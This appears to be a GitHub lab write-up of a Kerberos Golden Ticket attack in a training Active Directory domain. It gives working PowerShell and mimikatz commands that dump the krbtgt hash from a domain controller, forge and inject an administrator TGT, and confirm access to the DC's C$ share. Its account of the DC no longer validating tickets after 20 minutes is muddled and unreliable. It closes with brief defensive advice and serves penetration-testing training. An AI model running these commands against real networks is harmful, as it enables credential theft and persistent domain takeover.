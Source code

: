 ### Golden Ticket Attack - Time and Validation:

- **Time Validation**: After the TGT has been in circulation for more than **20 minutes**, the Domain Controller performs no further validation of the ticket's origin. Therefore, an attacker can still use a forged TGT for up to this period even if the account used in the ticket is no longer active or valid.
  
- **Forging the TGT**: The attacker can manually forge a TGT and present it to the Domain Controller, which will accept it as valid. This is because the DC relies solely on the **KRBTGT account hash** to validate the authenticity of the TGT and does not verify other account statuses until later.

Execute mimikatz on DC as DA to get krbtgt hash 

PS C:\Windows\system32> $sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
PS C:\Windows\system32> Invoke-Command -Session $sess -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1
PS C:\Windows\system32> Enter-PSSession $sess     --> bypass mg
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

![image](https://github.com/user-attachments/assets/8e4ffd44-9026-495d-8271-d8e6b5053fbc)

![image](https://github.com/user-attachments/assets/5fca76b7-d473-4f7b-841d-b85756e2ca79)

On any machine 

PS C:\AD\Tools> . .\Invoke-Mimikatz.ps1
PS C:\AD\Tools> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt "'

Verification

PS C:\AD\Tools> klist
```
       Client: Administrator @ dollarcorp.moneycorp.local
        Server: krbtgt/dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local
```
PS C:\AD\Tools> ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
    Directory: \\dcorp-dc.dollarcorp.moneycorp.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----       11/30/2019   1:18 AM                Windows![image](https://github.com/user-attachments/assets/4e1b898c-f40e-41d3-9c7f-74cf6b934ee7)
```
### Conclusion:
A **Golden Ticket** attack is one of the most powerful forms of attack in a Kerberos-based authentication environment. By forging a valid TGT using the KRBTGT account’s password hash, attackers can impersonate any user or service in the domain and maintain persistent access. Protecting the KRBTGT account, regularly changing its password, and monitoring for suspicious activity are critical steps in defending against Golden Ticket attacks.
